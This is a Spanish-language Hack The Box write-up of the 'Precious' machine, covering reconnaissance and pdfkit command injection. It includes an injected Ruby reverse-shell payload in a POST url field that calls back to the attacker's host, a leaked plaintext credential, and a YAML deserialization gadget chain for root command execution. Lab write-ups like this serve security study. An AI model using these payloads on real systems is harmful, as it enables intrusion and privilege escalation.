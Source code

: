 # Precious
![N|Solid](https://www.hackthebox.com/storage/avatars/3adcfd6093f8ddb4dffe8422da6377c8.png)

Primero debemos agregar la direccion IP a /etc/hosts
```
IP=ip_addr
$ sudo echo -e "$IP\tprecious.htb" >> /etc/hosts
```

Realizamos un escaneo con nmap para inspeccionar los puertos abiertos
```
$ sudo nmap -sC -Pn -n T5 precious.htb
# Nmap 7.93 scan initiated Sat Apr 29 13:05:42 2023 as: nmap -sC -T5 -Pn -n -oN scan.nmap precious.htb
Nmap scan report for precious.htb (10.10.11.189)
Host is up (0.084s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
| ssh-hostkey: 
|   3072 845e13a8e31e20661d235550f63047d2 (RSA)
|   256 a2ef7b9665ce4161c467ee4e96c7c892 (ECDSA)
|_  256 33053dcd7ab798458239e7ae3c91a658 (ED25519)
80/tcp open  http
|_http-title: Convert Web Page to PDF

# Nmap done at Sat Apr 29 13:05:47 2023 -- 1 IP address (1 host up) scanned in 5.13 seconds
```

Al inspeccionar la pagina web observamos lo siguiente

![N|Solid](readme_files/precious_1.png)

Por medio de la herramienta BurpSuite inspeccionamos lo que sucede cuando intentamos introducir una URL.

![N|Solid](readme_files/precious_2.png)

Nos indica que no se pudo cargar la URL, por lo que intentamos realizar lo mismo nuevamente, pero esta vez vamos a cargar un archivo local usando python3 http.server

![N|Solid](readme_files/precious_3.png)

Como podemos ver en la imagen, el archivo se cargo correctamente y se convirtio en PDF, ahora si inspeccionamos la consola del navegador web, podremos ver que el pdf se genero usando pdfkit v0.8.6

![N|Solid](readme_files/precious_4.png)

Usando searchsploit podeoms ver que la herramienta pdfkit presenta una vulnerabilidad de inyeccion de codigo

```
$ searchsploit pdfkit
--------------------------------------------------------------- ---------------------------------
 Exploit Title                                                 |  Path
--------------------------------------------------------------- ---------------------------------
pdfkit v0.8.7.2 - Command Injection                            | ruby/local/51293.py
--------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

Practicamente lo que sucede es que la herramienta no realiza una sanitizacion adecuada para el valor "URL=..." que se envia en el body de la solicitud POST. Por lo que si un usuario quisiera obtener acceso podria enviar el siguiente payload.

```
url=http://<our_ip_addr>:8000/testing.html=http://%20`ruby -rsocket -e'spawn("sh",[:in,:out,:err]=>TCPSocket.new("<our_ip_address>","<our_listening_port>"))'`
```
Antes de enviar el anterior PAYLOAD, solo tendriamos que poner el puerto <our_listening_port> en modo escucha y posteriormente obtendriamos el reverse shell.

A continuacion una demostracion usando el exploit creado por UNICORD.

![N|Solid](readme_files/precious_5.png)

Una vez obtenido acceso a la maquina, procedemos a encontrar una forma de escalar privilegios, para ello primero debemos encontrar las credenciales del usuario henry.

```
whoami
ruby
cd
pwd
/home/ruby
ls -la
total 28
drwxr-xr-x 4 ruby ruby 4096 May  1 01:07 .
drwxr-xr-x 4 root root 4096 Oct 26  2022 ..
lrwxrwxrwx 1 root root    9 Oct 26  2022 .bash_history -> /dev/null
-rw-r--r-- 1 ruby ruby  220 Mar 27  2022 .bash_logout
-rw-r--r-- 1 ruby ruby 3526 Mar 27  2022 .bashrc
dr-xr-xr-x 2 root ruby 4096 Oct 26  2022 .bundle
drwxr-xr-x 3 ruby ruby 4096 May  1 01:07 .cache
-rw-r--r-- 1 ruby ruby  807 Mar 27  2022 .profile
cd .bundle
ls
config
cat config
---
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:Q3c1AqGHtoI0aXAYFH"
```

Ahora iniciamos una sesion SSH usando las credenciales encontradas en el archivo /home/ruby/.bundle/config y posteriormente inspeccionaremos que cosas interesantes podemos hacer usando sudo -l

```
ssh henry@precious.htb        
henry@precious.htb's password: 
Linux precious 5.10.0-19-amd64 #1 SMP Debian 5.10.149-2 (2022-10-21) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
henry@precious:~$ sudo -l
Matching Defaults entries for henry on precious:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User henry may run the following commands on precious:
    (root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb
```

Podemos usar el comando /usr/bin/ruby para ejecutar el script /opt/update_dependencies.rb sin embargo ni el archivo /usr/bin/ruby ni /opt/update_dependencies.rb es modificable asi que hay que inspeccionar detenidamente el script /opt/update_dependencies.rb para ver que podemos hacer.

```
# Compare installed dependencies with those specified in "dependencies.yml"
require "yaml"
require 'rubygems'

# TODO: update versions automatically
def update_gems()
end

def list_from_file
    YAML.load(File.read("dependencies.yml")) # <-- YAML deserializacion 
end

def list_local_gems
    Gem::Specification.sort_by{ |g| [g.name.downcase, g.version] }.map{|g| [g.name, g.version.to_s]}
end

gems_file = list_from_file
gems_local = list_local_gems

gems_file.each do |file_name, file_version|
    gems_local.each do |local_name, local_version|
        if(file_name == local_name)
            if(file_version != local_version)
                puts "Installed version differs from the one specified in file: " + local_name
            else
                puts "Installed version is equals to the one specified in file: " + local_name
            end
        end
    end
end
```
Al examinar la funcion list_from_file, podremos observar de que se intenta abrir el archivo "dependencies.yml" el cual no esta creado en el propio directorio donde se encuentra /opt/update_dependencies.rb

Lo que se puede hacer a continuacion es dirigirse a un directorio en el que podamos crear archivos e insertar un payload que nos permita ejecutar comandos como root al momento de que ocurra la deserializacion en el archivo "dependencies.yml"


El payload que se va a usar se obtuvo de https://gist.github.com/staaldraad/89dffe369e1454eedd3306edc8a7e565

```
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: <COMANDO_QUE_QUEREMOS_EJECUTAR_COMO_ROOT>
         method_id: :resolve
```
Insertamos el payload en un archivo llamado "dependencies.yml" y procedemos con la ejecucion del script

![N|Solid](readme_files/precious_6.png)

